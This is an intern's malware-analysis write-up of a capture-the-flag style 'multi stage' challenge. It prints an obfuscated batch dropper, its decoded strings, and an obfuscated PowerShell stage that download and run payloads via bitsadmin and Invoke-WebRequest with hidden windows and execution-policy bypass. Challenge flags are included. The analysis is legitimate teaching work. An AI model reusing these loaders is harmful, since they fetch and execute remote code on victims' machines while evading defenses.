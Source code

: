```yaml
---
layout: post
title: "Multi Stage"
date: 2025-04-21 11:00:00 +0800
categories: [intern ,malware analysis]
tags: [writeup, malware analysis, intern]
image: https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png
---
```


# 🐞 Malware analysis

Analysis on malware that operates through multiple phases.

Multi-stage malware is a sophisticated type of malicious software designed to execute in multiple phases, often evading detection by traditional security measures. Unlike single-stage malware, which executes its payload immediately, multi-stage malware follows a structured execution path, usually involving an initial dropper, loaders, and a final payload.

In the challenge I was given the malicious program zip file named multistage.zip. I extracted it in a controlled environment in my kali linux vmware sandbox. After extracting it there is a multistage file. Going through the file i have located the possible malicious program file which is called stacysmom.bat which is a windows batch file.


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*8jRzQ9YRzqdEy3xYTu3kKQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption><em>the multi stage folder after extraction</em></figcaption>
</figure>


<figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:272/format:webp/1*hWaufeSZDLSlPpFTQrUMAQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>the malware file in .bat extension</em></figcaption>
</figure>

A `.bat` file is a simple script file used in the Microsoft Windows operating system to automate tasks or run commands. When you double-click a `.bat` file or execute it , the `cmd.exe` reads the commands within the file and executes them sequentially.

``` bat
@echo off &setlocal
set eitg=set
set gopy=for
REM ZGlzdHJhY3QK
set hetY="tokens=* delims=" && set GhEt=in && set SADFCweFDCWQE=/f
REM VGhlc2UK
set VCWErqw=" " && set FWEfvrewFWRVEwer=dG#######hpc##########yB#####pc##########yBraW5k#####Y#######SBv######Zi######Bwb2l##########ud#######Gx#####lc#########3M######K###### && set POUINTYEBRTwertf=R!!!!!!m!!!!!!!!!x5aW5n!!!!!!!IHNh!!!!!!!!!dWNl!!!!!!!!!c!!!!!!!!n!!!!!!!!!Mg!!!!!!!!!!b2Z!!!!!!!!!0ZW4gY3!!!!!!!!!J!!!!!!!vc3Mg!!!!!!!bXkgbWlu!!!!!!Z!!!!!!!!!C!!!!!!B!!!!!!3!!!!!!!!aGV!!!!!!uI!!!!!!!EknbSBoa!!!!!!!Wdo!!!!!!!!!IEk!!!!!!!!n!!!!!!!!bSB0!!!!!!cmlwcGl!!!!!!!uJ!!!!!!w!!!!!o=!!!!! && set WeTTyhRRvfer=c@@@@@@3R@@@@h@@@@@@@@@Y3k@@@ucH@@@@@@@M@@@xCg@@@==@@@@@@@ && set VerBrtEwFCWe=a!!!!!!H!!!!!R0c!!!!!HM!!!!!!!!!6!!!!!!!!!L!!!!!y!!!!!9!!!!!y!!!!!!!!!!YXc!!!!!!!uZ2!!!!!l0aHVi!!!!!!!!!d!!!!!!!!!!X!!!!!!!!NlcmNvb!!!!!!!!!n!!!!!!!!RlbnQu!!!!!!!!!!Y29tL!!!!!!!0ludG!!!!!!!!!!Vyb!!!!!!m!!!!!!V!!!!!!0LTItM!!!!!!!C!!!!!!!9m!!!!!!a!!!!!!!W!!!!!!!!!!xl!!!!!!!!!!L!!!!!!!X!!!!!N!!!!!h!!!!!!!!bX!!!!!!!!!!B!!!!!!!s!!!!!!!!!!Z!!!!!XMvbWF!!!!!!z!!!!!!!!!!d!!!!!!!!GV!!!!!!!!!!y!!!!!!!!!!L3N!!!!!!jcm!!!!!!!!!!lwdHMvc!!!!!G!!!!!!!!!!9!!!!!!!!3ZXJzaG!!!!!!!!V!!!!!!!!!sbC9z!!!!!!!!!!d!!!!!!!GFjeS5wc!!!!!!zE!!!!!!K!!!!!!! && set WERtggbvtrWERV=W1N5c!!!!!!!!!!3!!!!!!!!!Rlb!!!!!S5UZXh0LkVuY29ka!!!!!W5!!!!!!nX!!!!!!!!!!To6!!!!!V!!!!!V!!!!!!!!RG!!!!!!!!!!O!!!!!!!!!C5HZXR!!!!!!T!!!!!!!!!!d!!!!!H!!!!!!!Jp!!!!!!!!!!b!!!!!!!!mcoW1N!!!!!!!!5!!!!!c3RlbS5D!!!!!!!!b!!!!!!!25!!!!!!!2!!!!!!ZXJ!!!!!!!0XTo6Rn!!!!!!!!!J!!!!!!!!!!v!!!!!!!!!!bUJh!!!!!!c!!!!!2!!!!!!U2!!!!!!!!!NFN!!!!!!!!!!0!!!!!!!!!cmluZw!!!!!!!!!!o= && set NTYerFVERHetERfewef=Y@@@@@@ml0c2Fk@@@@@@@b@@@@@@@@@WluLmV4@@@@@@@@@ZS@@@@@@A@@@@@@v@@@@@@@@@d@@@@@@@HJh@@@@@@bnNmZXI@@@@@@@@K@@@@@@@@@@ && set BRTwercvWQEFRWE=Mjc!!!!!!!!5!!!!!!!NWUx!!!!!!Nm!!!!!!!!!!Q!!!!!wM!!!!!!!DYx!!!!!!!ZjI0!!!!!!!!Yzkx!!!!!!M2My!!!!!NjAyY!!!!!!!!zI0NTM1Y!!!!!!!!!2F!!!!!!j!!!!!!!Mj!!!!!!!!!A!!!!!!!!!!yND!!!!!!!d!!!!!!!!!j!!!!!!!Mj!!!!!!!!Vj!!!!!!!OWM!!!!!!zNmE4!!!!!!!!!!O!!!!!WQyM!!!!!!!!!!GFk!!!!!!!!!NDgy!!!!!!!!!MGJj!!!!!!!!!NGI3M!!!!!i!!!!!!A!!!!!!!!!!gZ3Jv!!!!!!dX!!!!!!!BzLmpzb2!!!!!!!!4KOG!!!!!!!!!!NiMW!!!!!Zl!!!!!!!!M!!!!!!!!!GU!!!!!!!!!5YTQ!!!!!!yOGYxY!!!!!!!!!!TN!!!!!!!!!m!!!!!!!!!!ZmE!!!!!!3O!!!!!!T!!!!!!!!!c2!!!!!!!!!M2!!!!!!U5Y!!!!!!!TBi!!!!!!!!!!NTg!!!!!!!x!!!!!N!!!!!!!!!zV!!!!!!!!!h!!!!!!Z!!!!!j!!!!!!g!!!!!!!!!4NmZmM!!!!!!!!!!2!!!!!!!!!!J!!!!!mO!!!!!TFm!!!!!!!!!!Mz!!!!!!!Ew!!!!!!Z!!!!!jQ4ZGQ!!!!!!!!!4Y!!!!!TJ!!!!!hNj!!!!!!!!!M4ZC!!!!!AgcH!!!!!!!!J!!!!!!!l!!!!!dHR5X2!!!!!!!!!dyb3Vwcy!!!!!!!!!5qc29u!!!!!!!Cg!!!!!!!!!=!!!!!!!!!=!!!!!!! && set RTYbrtgVEWRqqwer=LU5vUC@@@@@@At@@@@@@@@@d@@@@@2l@@@@@@@@@@O@@@@@@@ZG93@@@@@@U@@@@@@@@1@@@@@RZTEU@@@@@@@gaGl@@@@@kZ@@@@@@GVOI@@@@@@@@C1@@@@@@@@F@@@@@@@@e@@@@@@@@@E@@@@@@@@@V@@@@@@j@@@@@@@@@d@@@@@@@V@@@@@@@@R@@@@@@p@@@@@@@@@@b05Q@@@@@@@@@@b2@@@@@@xpY3@@@@@kgQn@@@@@lw@@@@@@@@@QX@@@@@NzI@@@@@@@@C@@@@@@1Db01@@@@@@@@@@tQU@@@@@5EC@@@@@g==
REM Y29tbWVudHMK
set WERvtreVRETqwefewr=Zj########Q4OTI#w######ZTU######zN2#####Q#####5#####Y#########zRl####MG##U######3#########OTU#########5####Nz##FkYTM2##########NDY0ND##########Q######xOT######B#lZWNk###Mj######R#######k########N####z###E#####5MzAzYmV##j######ZG##Q########5Y##T####E#####zY########mZh######NTg#####xMAo#########= && set ERTHbrteQE=VGh@@@@@@@@@@pcyB@@@@@@@k@@@@@@@@b2Vzbn@@@@@@QgZG@@@@@@@@8@@@@@@gYW5@@@@@@@@5dG@@@@@@@@h@@@@@@@@@p@@@@@@bmcg@@@@@@YW5@@@@@@@@@@k@@@@@IH@@@@@@@@@l@@@@@@@@vdSd@@@@@yZ@@@@@SB@@@@@@@@@3Y@@@@@@@@@@XN0aW@@@@@@5nI@@@@@@@@Hl@@@@@@@@@vdX@@@@@@@Igd@@@@@@@@Gl@@@@@tZ@@@@@@Qo=@@@@@=@@@@@@@@@@ && set OIYuhrTRE=cG!!!!!!!!9!!!!!!!!!3!!!!!!!!ZX!!!!!!!!!Jz!!!!!!!a!!!!!!!!GVsb!!!!!!!!!!C!!!!!!!5le!!!!!!G!!!!!UK && set QWERVTrgbyRTGTREW=QnV#########5I#########G1lI##########G######Eg#####bW9######0aG########Vy#########I#########G########Z#####1Y2#########t#########p########bmcgZ##########2lyYW######ZmZQ##########o=######### && set QWErfqwfecQWEDWEX=%VerBrtEwFCWe:!=%
REM REM eW91Cg==
set QWEcwgrtHWTFWEQaxwe=%WeTTyhRRvfer:@=% && set RTYUvERQCXergtewsr=%WERvtreVRETqwefewr:#=% && set OYUIThbgrwtWCVRE=%OIYuhrTRE:!=%
REM YXJlCg==
set NETRYverEWERCREWweq=%RTYbrtgVEWRqqwer:@=%
set DwqeqwefWEFqwer=%WERtggbvtrWERV:!=%
REM ZGVzaWduZWQK
set ERTYbrtWCRWEfverwfcwer=%NTYerFVERHetERfewef:@=%
set SDFweFCWEwCWERwFWE=%ERTYbrtWCRWEfverwfcwer%%DwqeqwefWEFqwer%%NETRYverEWERCREWweq%%QWEcwgrtHWTFWEQaxwe%
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('powershell [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%OYUIThbgrwtWCVRE%"""^)^)') do set "CVWQeFEWRFQWEd=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("""%DwqeqwefWEFqwer%"""^)^)') do set "WreqwecQWEFRWE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWErfqwfecQWEDWEX%"""^)^)') do set "KIUYntyERverERF=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%QWEcwgrtHWTFWEQaxwe%"""^)^)') do set "NbfdsvREVntySRE=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%RTYUvERQCXergtewsr%"""^)^)') do set "iUYTbyteVERTfer=%%#"
REM dG8K
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%NETRYverEWERCREWweq%"""^)^)') do set "QWWEcdweWERee=%%#"
%gopy% %SADFCweFDCWQE% %hetY% %%# %GhEt% ('%CVWQeFEWRFQWEd% %WreqwecQWEFRWE%("""%ERTYbrtWCRWEfverwfcwer%"""^)^)') do set "QWERfcerWEDfcvtbytTYR=%%#"
%QWERfcerWEDfcvtbytTYR% "%iUYTbyteVERTfer%" %KIUYntyERverERF% %cd%\%NbfdsvREVntySRE% && %CVWQeFEWRFQWEd% %QWWEcdweWERee% "%cd%\%NbfdsvREVntySRE%"


```
 <figcaption style="text-align:center;"><em>open the file using text editor</em></figcaption>

 I opened the `.bat` file using a text editor called Mousepad and observed that the code was heavily obfuscated, containing a mixture of random-looking symbols and meaningless strings, making it difficult to interpret at first glance. 
 
 Additionally, parts of the code were encoded in Base64, as indicated by the format and structure of the encoded strings. I noticed the use of the `&&` symbol, which in batch files is used to chain commands.
 
 So, I separated the commands accordingly to better analyze them. To confirm that the code was Base64-encoded, I extracted a portion of it and decoded it.

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:1100/format:webp/1*C24azyzRynbYQmpYMDrdoA.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>portion of the code decoded</em></figcaption>
</figure>

Using the cyberchef website i decoded a part from the text using the from base 64 option and remove non alphabet characters and got the decode text as shown on the picture. As it is confirmed the text is encoded as base64 i decoded it and got the decoded text.

``` bat
set VCWErqw=" " && 
set FWEfvrewFWRVEwer=this is kinda of pointless&& 
set POUINTYEBRTwertf= Flying saucers often cross my mind when I'm high I'm trippin' &&
set WeTTyhRRvfer=stacy.ps1&& 
set VerBrtEwFCWe=https://raw.githubusercontent.com/Internet-2-0/file-samples/master/scripts/powershell/stacy.ps1 &&
set WERtggbvtrWERV=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String && 
set NTYerFVERHetERfewef= bitsadmin.exe /transfer &&
set BRTwercvWQEFRWE=2795e16d0061f24c913c2602c24535cac20247c25c9c36a89d20ad4820bc4b72  groups.json
8cb1fe0e9a428f1a3ffa79763e9a0b58175af886ff3bf91f310f48dd8a2a638d  pretty_groups.json &&
set RTYbrtgVEWRqqwer= -NoP -wiNdowSTYLE hiddeN -ExEcuTioNPolicy BypAss -CoMmAND

```

From the decoded text we now have a link to the second stage of the malware.A suspicious PowerShell script was identified leveraging obfuscated variables, Base64 decoding, and the bitsadmin utility to stealthily download and execute a remote payload (`stacy.ps1`) from GitHub, while employing execution policy bypasses and hidden window execution—indicative of potential malware loader behavior.

## What windows tool used by to download the second stage payload? flag: bitsadmin

Upon reviewing the linked PowerShell script `stacy.ps1`, it was found to be heavily obfuscated, using randomized variables, Base64 decoding, and encoded shellcode to reconstruct and execute a malicious binary `stacy.exe`. The script downloads the payload via Invoke-WebRequest, extracts it, and launches it using execution policy bypass techniques—indicative of malware dropper behavior.

``` powershell
function llIIllIIllIIllIIllIIllIIllIIllIIllII($vP9MZDGjnoJ) {$Mohfy6VuAN25tmCcilWJ = "\x90";$xgWjzvyhbOVsU6La79 = $vP9MZDGjnoJ.replace($Mohfy6VuAN25tmCcilWJ, " ") -split " ";$Mt = $xgWjzvyhbOVsU6La79.clone();[array]::reverse($Mt);$MXfstqmCoh2iTbaGnwr0j4Ny = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($Mt));return $MXfstqmCoh2iTbaGnwr0j4Ny; }
function llIIllIIllIIllIIIIIIllIIllIlllllllII($7lGQcpZoLf6Yk2CPEezSv) {$6cZyHm8aYQX=-join ((0x41..0x5a) + (0x61..0x7a) | Get-Random -Count 20 | % {[char]$_});return "$6cZyHm8aYQX$7lGQcpZoLf6Yk2CPEezSv" }
$hg34RNfykz5XdxBn287mU9=llIIllIIllIIllIIllIIllIIllIIllIIllII("=\x90A\x90X\x90a\x906\x905\x90S\x90b\x90v\x901\x902\x90c\x905\x90N\x90W\x90Y\x900\x90N\x903\x90L\x90j\x90N\x90X\x90a\x90t\x909\x90i\x90c\x90l\x90R\x903\x90c\x90h\x901\x902\x90L\x903\x90F\x90m\x90c\x90v\x90M\x90X\x90Z\x90s\x90B\x90X\x90b\x90h\x90N\x90X\x90L\x90l\x90x\x90W\x90a\x90m\x909\x90C\x90M\x90t\x90I\x90T\x90L\x900\x90V\x90m\x90b\x90y\x90V\x90G\x90d\x90u\x90l\x900\x90L\x90t\x909\x902\x90Y\x90u\x90I\x90W\x90d\x90o\x90R\x90X\x90a\x90n\x909\x90y\x90L\x906\x90M\x90H\x90c\x900\x90R\x90H\x90a\x90");$tQsoNjk=llIIllIIllIIllIIllIIllIIllIIllIIllII("l\x90h\x90X\x90Z\x90u\x90w\x90G\x90b\x90l\x90h\x902\x90c\x90y\x90V\x902\x90d\x90v\x90B\x90H\x90X\x90w\x904\x90S\x90M\x902\x90x\x90F\x90b\x90s\x90V\x90G\x90a\x90T\x90J\x90X\x90Z\x903\x909\x90G\x90U\x90z\x90d\x903\x90b\x90k\x905\x90W\x90a\x90X\x90x\x90l\x90M\x90z\x900\x90W\x90Z\x900\x90N\x90X\x90e\x90T\x90x\x901\x90c\x903\x909\x90G\x90Z\x90u\x90l\x902\x90V\x90c\x90p\x90z\x90Q");$RXNPxpB=llIIllIIllIIllIIIIIIllIIllIlllllllII(".zip");$CcAn4K8e=llIIllIIllIIllIIIIIIllIIllIlllllllII("");Invoke-WebRequest $hg34RNfykz5XdxBn287mU9 -OutFile $RXNPxpB;Expand-Archive $RXNPxpB -DestinationPath $CcAn4K8e; & $tQsoNjk -exECUtIonPOLicY bYpAsS stArT-ProcEss -FilepaTH ".\$CcAn4K8e\stacy.exe";
```

The PowerShell script was hidden and difficult to understand. To uncover its purpose, I used CyberChef, a tool that helps decode obfuscated data.

First, I removed unnecessary `\x90` characters from the script. These characters didn’t serve any purpose and were only there to confuse the analysis. I also removed the extra equal signs `=` that were part of the Base64 encoding, as they weren’t needed.

Next, I reversed the string because the code was written backward to make it harder to read. After that, I decoded the string from Base64, which revealed the original URL and other information.

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*Go0EzfT11WEuPoQHDFzmaQ.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>using cyberchef</em></figcaption>
</figure>

 <figure style="text-align:center;">
  <img src="https://miro.medium.com/v2/resize:fit:786/format:webp/1*9bjway9wj3AvoPUCh3WWcg.png" alt="Process List" style="display:block; margin: 0 auto; max-width: 100%;">
  <figcaption style="text-align:center;"><em>code decoded</em></figcaption>
</figure>

It then extracted the contents and ran an executable file called stacy.exe. The script used PowerShell to run stacy.exe while bypassing security settings to ensure it could execute without restrictions.

In the end, the script was designed to download and run a potentially harmful file.

## Find the link to the third stage of the malware ? flag: https://github.com/Internet20/filesamples/raw/master/misc/stacysmom.zip


unzip the zip file and open the read me .txt

``` 
This is a publicity stunt done by the Malcore team. 

None of the files in this folder are malicious (if they are it wasn't me), they are just intended to look that way.

Hashes of files in this folder:
- a33a361b45aa3a7b6515ff7771af52632697e30ce7e63aa3a271f4f05a5ea28d  ./.fi/ch_1.lnk
- 6f567d8eea0e83dadea8d14068d40d9445151e24358d20b977e9b7c64d03927e  ./.fi/ed_9.lnk
- 05b3222358004e9704320764f7515283b8d2b09f0248f931c057d23a255a566c  ./.fi/ff_3.lnk
- 041afe89d68bb845ffde722354c13261ddb1bb46776fec0efa180a95fbc994b8  ./autorun.ini
- a3f4edfb57534da9eca838ad64cc73b1a661b3349368bcc6d5097edfd9a602a3  ./cliCk ME fOR inSTrucTioNs.pdf.lnk
- 7ff8e302fec63de5a35b03ef09aff6f5b722de23131b0f82da8f4203efac9d20  ./just_m_logo.ico
- 3aebd76e2877d35949eb21f27eeaad514b21810291628454a92f86de7264b225  ./stacy.exe

Of course always remain cautions when executing unknown files out of a USB you found on the ground at a hacking conference.
```

From this message there was suppose to an .fi directory but i the folder show none. So run this `ls -la ` to show an hidden dirctory and file

``` 
─$ ls -la
total 12772
drwxrwxr-x 4 kali kali    4096 May 16 22:17  .
drwxrwxr-x 3 kali kali    4096 Mar 21 00:32  ..
-rw-rw-r-- 1 kali kali      68 Jul 17  2024  autorun.ini
-rw-rw-r-- 1 kali kali    2673 Jul 17  2024 'cliCk ME fOR inSTrucTioNs.pdf.lnk'
-rw-rw-r-- 1 kali kali    1988 Mar 23 23:18  complet.bat
-rw-r--r-- 1 kali kali    2811 Mar 31 21:17  deobfuscated.bat
-rwxrwxr-x 1 kali kali     570 Mar 23 21:58  deobfuscate.sh
drwxrwxr-x 2 kali kali    4096 Mar 24 00:04  .fi
-rw-rw-r-- 1 kali kali    4286 Jul 16  2024  just_m_logo.ico
-rw-rw-r-- 1 kali kali  421931 Apr  3 22:05  output_stacy.txt
-rw-rw-r-- 1 kali kali  421931 Mar 24 01:34  output.txt
-rw-rw-r-- 1 kali kali   17542 Apr 27 23:43  pyinstxtractor.py
-rw-rw-r-- 1 kali kali     941 Jul 17  2024  README.txt
-rw-rw-r-- 1 kali kali       0 Mar 23 23:33  stacydecompile.bat
-rw-rw-r-- 1 kali kali 6147624 Jul 17  2024  stacy.exe
drwxrwxr-x 4 kali kali    4096 Apr 28 03:57  stacy.exe_extracted
-rw-rw-r-- 1 kali kali    1870 Mar 21 23:07  stacy.ps1
-rw-rw-r-- 1 kali kali    1129 Apr 19 05:52  stacyps1decode.ps1
-rw-r--r-- 1 kali kali    2647 Mar 21 22:54  stacysmom1.bat
-rw-r--r-- 1 kali kali    5646 Mar 23 21:59  stacysmom.bat
-rw-rw-r-- 1 kali kali 5988242 Mar 24 00:03  stacysmom.zip
-rw-rw-r-- 1 kali kali       0 Mar 23 23:58  stacy.zip

```
here i found the .fi directory and change the directory into it

``` 
.
├── ch_1.lnk
├── ed_9.lnk
└── ff_3.lnk

```

i cat the `ch_1.lnk` to view what in it and found this

```
C:\Program Files\Google\Chrome\
Application"https://link.malcore.io"
(C:\Users\saman\Downloads\just_m_logo.ico
```

## What is the URL the final stage malware trying to access? flag : https://link.malcore.io
